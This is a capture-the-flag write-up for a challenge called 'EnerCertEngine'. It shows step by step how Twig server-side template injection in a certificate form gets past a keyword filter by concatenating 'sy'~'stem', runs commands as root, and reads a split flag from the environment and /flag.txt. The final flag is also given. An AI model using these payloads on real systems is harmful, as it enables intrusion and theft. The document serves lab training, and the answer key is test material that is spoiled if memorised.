








# EnerCertEngine — CTF Solution Writeup

**Challenge Name:- EnerCertEngine**

**Step-1:** Open the challenge website in a browser:

`http://TARGET-IP/`

You will see the **EnerCert Workforce Certification Portal**. Locate the participant name, training programme, and certification date fields.



**Step-2:** Check `robots.txt` to discover the health endpoint:

```bash
curl -s "http://TARGET-IP/robots.txt"
```

The output references `/health`. Check it:

```bash
curl -s "http://TARGET-IP/health"
```

The response identifies `EnerCertEngine 2.4.0 (Twig LiveRender)` and shows that the safety filter is enabled.



**Step-3:** On the certificate form, enter a participant name and date. In the **Training / Certification Programme** field, submit:

```twig
{{7*7}}
```

Generate the certificate. The programme value appears as `49`, confirming **Twig Server-Side Template Injection (SSTI)**.



**Step-4:** Return to the form and submit this in the programme field:

```twig
{{config}}
```

The site displays **Certificate validation rejected**, showing that a filter blocks suspicious input.



**Step-5:** Bypass the string filter by building the function name dynamically with Twig's `~` operator. Submit:

```twig
{{['id']|filter('sy'~'stem')}}
```

The certificate shows `uid=0(root)`, confirming command execution.



**Step-6:** Inspect environment variables using the same technique:

```twig
{{['env']|filter('sy'~'stem')}}
```

The output includes the first flag segment:

```text
SECRET_MOTTO=FLAG{T3mpl4t3_1n
```



**Step-7:** List the root directory:

```twig
{{['ls -la /']|filter('sy'~'stem')}}
```

The output reveals a file named `flag.txt` in `/`.



**Step-8:** Read `/flag.txt` by splitting the blocked word during template rendering:

```twig
{{['cat /fla'~'g.txt']|filter('sy'~'stem')}}
```

The certificate displays:

```text
j3c710n_M4s73r}Array
```

Combine the string from `SECRET_MOTTO` with the file contents, excluding Twig's trailing `Array` output.



**Flag: `FLAG{T3mpl4t3_1nj3c710n_M4s73r}`**
